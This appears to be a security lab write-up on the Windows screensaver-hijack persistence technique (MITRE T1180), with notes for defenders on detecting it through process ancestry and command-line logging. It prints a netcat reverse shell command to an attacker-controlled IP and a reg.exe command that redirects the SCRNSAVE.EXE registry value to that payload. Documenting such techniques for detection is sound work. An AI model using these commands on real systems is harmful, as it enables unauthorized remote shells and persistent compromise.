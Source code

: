 ```yaml
---
description: Hijacking screensaver for persistence.
---
```


# T1180: Screensaver Hijack

## Execution

Attacker has a binary that upon execution sends him a reverse shell. To achieve persistence, the attacker can hijack the `SCRNSAVE.EXE` value in `HKCU\Control Panel\Desktop\` to point it to his payload. In my test, I used a netcat reverse shell:

{% code-tabs %}
{% code-tabs-item title="c:\\shell.cmd@victim" %}
```bash
C:\tools\nc.exe 10.0.0.5 443 -e cmd.exe
```
{% endcode-tabs-item %}
{% endcode-tabs %}

For simplicity of this exercise, I am using regedit to update the registry \(as if the attacker got the RDP access\):

![](../.gitbook/assets/screensaver-registry.png)

The same could be achieved using a native windws binary reg.exe:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```bash
reg add "hkcu\control panel\desktop" /v SCRNSAVE.EXE /d c:\shell.cmd
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../.gitbook/assets/screensaver-reg.png)

## Observations

Note the process ancestry on the victim system - the reverse shell process traces back to winlogon.exe as the parent process, which is responsible for managing user logons/logoffs - this process ancestry is highly suspect and should make you want to investigate the machine further:

![](../.gitbook/assets/screensaver-shell%20%281%29.png)

Commandline line argument monitoring:

![](../.gitbook/assets/screensaver-logs.png)

{% embed url="https://attack.mitre.org/wiki/Technique/T1180" %}




